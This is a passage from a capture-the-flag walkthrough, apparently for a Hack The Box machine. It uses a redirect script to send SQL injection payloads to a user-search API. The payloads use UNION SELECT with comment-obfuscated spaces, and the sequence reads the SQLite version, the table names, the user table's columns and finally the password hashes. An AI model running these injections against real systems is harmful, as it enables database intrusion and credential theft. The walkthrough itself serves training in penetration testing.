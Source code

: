 ```shell
sudo python3 redirect.py 80 "http://10.10.11.176:3000/api/v1/users/search?q=e')/**/union/**/all/**/select/**/null,null,(select/**/version()),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,1--"
```
We get an error back saying the site is not up.

```shell
sudo python3 redirect.py 80 "http://10.10.11.176:3000/api/v1/users/search?q=e')/**/union/**/all/**/select/**/null,null,(select/**/sqlite_version()),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,1--"
```
Success we see that the sqlite version is 3.8.5

![](sqlite-version.png)


Now that we know what database it is, we can get the tables that are available.

```shell
sudo python3 redirect.py 80 "http://10.10.11.176:3000/api/v1/users/search?q=e')/**/union/**/all/**/select/**/null,null,(SELECT/**/tbl_name/**/FROM/**/sqlite_master),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,1--"
```
![](table.png)

Get the columns of the table

```shell
"http://10.10.11.176:3000/api/v1/users/search?q=e')/**/union/**/all/**/select/**/null,null,(SELECT/**/sql/**/FROM/**/sqlite_master/**/WHERE/**/type!='meta'/**/AND/**/sql/**/NOT/**/NULL/**/AND/**/name/**/='user'),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,1--"
```


![](assets/img/health-db-columns.png)
*Looks like I did not mark all of the colums but I got the two that we need most. Can you find the ones I missed?*

Let's get the password:

```shell
sudo python3 redirect.py 80 "http://10.10.11.176:3000/api/v1/users/search?q=e')/**/union/**/all/**/select/**/null,null,(select/**/passwd/**/from/**/user),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,1--" 
```
